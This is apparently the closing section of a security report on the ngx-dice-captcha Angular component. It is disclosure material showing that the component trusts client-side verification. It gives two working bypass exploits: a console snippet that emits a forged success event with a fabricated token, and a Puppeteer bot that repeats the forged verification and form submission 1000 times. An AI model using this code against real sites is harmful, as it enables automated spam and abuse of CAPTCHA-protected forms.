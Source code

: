 ### Exploit 1: Complete Bypass (10 lines of code)

```javascript
// Run in browser console - bypasses CAPTCHA in < 1 second
(function () {
  const el = document.querySelector('ngx-dice-captcha');
  const comp = ng.getComponent(el);
  const token = btoa(
    JSON.stringify({
      sessionId: 'pwned',
      timestamp: Date.now(),
      salt: Math.random().toString(36),
    })
  );
  comp.verified.emit({
    success: true,
    token: `token-${token}`,
    timestamp: Date.now(),
    message: 'Bypassed!',
  });
  console.log('✅ CAPTCHA bypassed!');
})();
```

### Exploit 2: Automated Bot Script

```javascript
// Puppeteer script - bypasses CAPTCHA automatically
const puppeteer = require('puppeteer');

async function bypassCaptcha(url) {
  const browser = await puppeteer.launch();
  const page = await browser.newPage();
  await page.goto(url);

  await page.evaluate(() => {
    const comp = ng.getComponent(document.querySelector('ngx-dice-captcha'));
    const token = btoa(
      JSON.stringify({
        sessionId: 'bot-' + Date.now(),
        timestamp: Date.now(),
        salt: 'automated',
      })
    );
    comp.verified.emit({
      success: true,
      token: `token-${token}`,
      timestamp: Date.now(),
    });
  });

  // Submit form
  await page.click('button[type="submit"]');
  await browser.close();
}

// Run 1000 times
for (let i = 0; i < 1000; i++) {
  await bypassCaptcha('https://target-site.com/form');
}
```

---

**END OF REPORT**
